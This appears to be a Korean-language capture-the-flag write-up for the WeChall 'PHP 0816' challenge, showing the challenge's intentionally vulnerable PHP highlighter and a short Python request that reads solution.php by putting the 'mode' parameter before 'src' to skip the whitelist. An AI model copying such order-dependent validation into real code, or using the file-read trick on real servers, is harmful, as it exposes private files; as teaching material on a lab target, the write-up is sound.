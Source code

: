 ================================================================================================================
[wechall] PHP 0816
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="code.php?mode=hl&src=solution.php",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================


.. code-block:: php




    <?php
    $cwd = getcwd();
    chdir('../../');
    require_once('challenge/html_head.php');
    html_head('PHP0816 Challenge - The Highlighter');
    chdir($cwd);
     
    # globals
    global $highlights;
    $highlights = array();
     
    /**
     * Parse the GET parameters.
     */
    foreach ($_GET as $key => $value)
    {
        if ($key === 'src') {
            php0816SetSourceFile($value);
        }
        elseif ($key === 'mode') {
            php0816execute($value);
        }
        elseif ($key === 'hl') {
            php0816addHighlights($value);
        }
    }
     
     
    /**
     * Make magic quotes off !
     * (it is really defined in /include/util/Class_Common.php and will deprecate soon)
     * (also you can look on the html_head() stuff, etc. WeChall source is public domain)
     * (if you like a hint: There is a main logical error in this script, applies to all programming languages, not only php. H4\/3: |>  |-|  |_|  |\|)
     */
    /*
    final class Common
    {
            public function getGet($varname, $default=false)
            {
                    if (!isset($_GET[$varname])) {
                            return $default;
                    }
                    return 
                            get_magic_quotes_gpc() > 0 ?
                                    stripslashes($_GET[$varname]) :
                                    $_GET[$varname];
            }
    }
    */
    /**
     * Set the text file to show.
     * Sanitize Get Parameter.
     * Only allow 3 different files by whitelist at the moment.
     * TODO: broken ?!? people can see other files ! :(
     * @param $filename string - the filename
     * @return void
     */
    function php0816SetSourceFile($filename)
    {
        $filename = (string) $filename;
        
        static $whitelist = array(
            'test.php',
            'index.php',
            'code.php',
        );

        # Sanitize by whitelist
        if (!in_array($filename, $whitelist, true))
        {
            $_GET['src'] = false;
        }
    }
     
    /**
     * Add the highlighter keywords. 
     * @param $keyword array of strings - the highlighting keywords
     * @return void
     */
    function php0816addHighlights($keywords)
    {
        global $highlights;
        if (!is_array($keywords)) { return true; }
        
        foreach($keywords as $k)
        {
            $highlights[] = $k;
        }
    }
     
    /**
     * Execute action.
     * Currently only hl is known.
     * @param $mode
     * @return void
     */
    function php0816execute($mode)
    {
        switch($mode)
        {
            case 'hl': php0816Highlighter(); break;
        }
    }
     
    /**
     * Call the highlighter :)
     * sweeeeet.
     * @return void
     */
    function php0816Highlighter()
    {
        global $highlights; # <-- global highlights :D
        
        # SOMEONE SAID THIS WILL FIX IT, BUT PEOPLE CAN STILL SEE solution.php :(  #
        $filename = str_replace(array('/', '\\', '..'), '', Common::getGet('src'));#
        
        if (false === ($text = @file_get_contents($filename)))
        {
            echo '<div>File not Found: '.htmlspecialchars($filename, ENT_QUOTES).'</div>';
            return false;
        }
        
        $text = htmlspecialchars($text, ENT_QUOTES);

        foreach ($highlights as $highlight)
        {
            $stlye = 'color:#CD7F32; background-color:white; padding: 0 8px;'; 
            $text = str_replace($highlight, '<b style="'.$stlye.'">'.$highlight.'</b>', $text);
        }
        
        echo '<pre>'.$text.'</pre>';
    }
     
    $cwd = getcwd();
    chdir('../../');
    require_once('challenge/html_foot.php');
    chdir($cwd);
    ?>

|


solve
================================================================================================================

- 파라미터 조건을 만족할 경우 solution.php 파일을 읽을 수 있습니다.


.. code-blcok:: python


    import requests


    url = "http://www.wechall.net/challenge/php0816/code.php"
    
    params = {
        "mode": "hl",
        "src": "solution.php"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content
